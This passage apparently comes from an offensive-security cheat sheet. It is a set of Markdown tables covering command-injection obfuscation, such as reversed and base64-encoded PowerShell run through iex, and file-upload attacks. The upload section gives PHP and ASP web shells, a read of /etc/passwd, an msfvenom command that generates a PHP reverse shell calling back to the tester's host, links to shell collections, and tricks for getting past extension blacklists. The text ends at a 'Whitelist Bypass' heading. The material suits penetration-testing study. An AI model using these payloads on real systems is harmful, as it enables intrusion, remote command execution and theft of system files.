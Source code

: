 | Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |


# FILE UPLOAD ATTACKS
## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Insepctor |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |